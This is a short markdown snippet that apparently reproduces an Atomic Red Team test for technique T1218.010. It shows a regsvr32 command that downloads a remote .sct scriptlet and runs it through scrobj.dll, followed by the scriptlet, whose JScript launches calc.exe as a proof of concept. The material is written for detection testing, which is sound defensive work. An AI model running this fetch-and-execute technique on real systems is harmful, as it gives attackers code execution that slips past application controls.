 <!-- T1218.010
 Determine the ability to run proccess using regsvr32 on a workstation  -->

> Source: [Atomic T1218.010](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.010/T1218.010.md#atomic-test-2---regsvr32-remote-com-scriptlet-execution)

```
#{regsvr32path}\#{regsvr32name} /s /u /i:#{url} scrobj.dll

C:\Windows\system32\regsvr32.exe /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.010/src/RegSvr32.sct scrobj.dll

```


```sct
<?XML version="1.0"?>
<scriptlet>
<registration 
    progid="PoC"
    classid="{F0001111-0000-0000-0000-0000FEEDACDC}" >
	<!-- regsvr32 /s /u /i:http://example.com/file.sct scrobj.dll -->

	<!-- .sct files when downloaded, are executed from a path like this -->
	<!-- Please Note, file extenstion does not matter -->
	<!-- Though, the name and extension are arbitary.. -->
	<!-- c:\users\USER\appdata\local\microsoft\windows\temporary internet files\content.ie5\2vcqsj3k\file[2].sct -->
	<!-- Based on current research, no registry keys are written, since call "uninstall" -->
  	<!-- You can either execute locally, or from a url -->
	<script language="JScript">
		<![CDATA[
	    		// calc.exe should launch, this could be any arbitrary code.
      	   		// What you are hoping to catch is the cmdline, modloads, or network connections, or any variation
			var r = new ActiveXObject("WScript.Shell").Run("calc.exe");	
	
		]]>
</script>
</registration>
</scriptlet>
``` T1218.010
